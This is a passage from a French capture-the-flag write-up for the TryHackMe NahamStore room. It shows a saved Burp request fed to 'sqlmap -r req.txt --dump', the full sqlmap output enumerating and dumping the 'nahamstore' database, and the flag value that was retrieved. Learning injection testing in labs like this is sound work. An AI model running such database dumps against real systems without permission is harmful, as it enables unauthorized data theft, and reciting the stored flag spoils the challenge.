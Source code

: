 On fait un bon de retour et on enregistre la requete avec burp sous un fichier req.txt.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r req.txt --dump
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:38:13 /2021-10-03/
...
[21:39:17] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[21:39:17] [INFO] fetching current database
[21:39:17] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[21:39:17] [INFO] retrieved: nahamstore
[21:39:22] [INFO] fetching tables for database: 'nahamstore'
[21:39:22] [INFO] fetching number of tables for database 'nahamstore'
[21:39:22] [INFO] retrieved: 2
[21:39:22] [INFO] retrieved: order
[21:39:25] [INFO] retrieved: sqli_two
[21:39:29] [INFO] fetching columns for table 'sqli_two' in database 'nahamstore'
[21:39:29] [INFO] retrieved: 2
[21:39:29] [INFO] retrieved: flag
[21:39:31] [INFO] retrieved: id
[21:39:32] [INFO] fetching entries for table 'sqli_two' in database 'nahamstore'
[21:39:32] [INFO] fetching number of entries for table 'sqli_two' in database 'nahamstore'
[21:39:32] [INFO] retrieved: 1
[21:39:33] [INFO] retrieved: {212ec3b036925a38b7167cf9f0243015}
[21:39:52] [INFO] retrieved: 1
Database: nahamstore
Table: sqli_two
[1 entry]
+----+------------------------------------+
| id | flag                               |
+----+------------------------------------+
| 1  | {212ec3b036925a38b7167cf9f0243015} |
+----+------------------------------------+
...

```

On dump la base donnée avec sqlmap et on trouve le flag.   

La flag est : {212ec3b036925a38b7167cf9f0243015}  
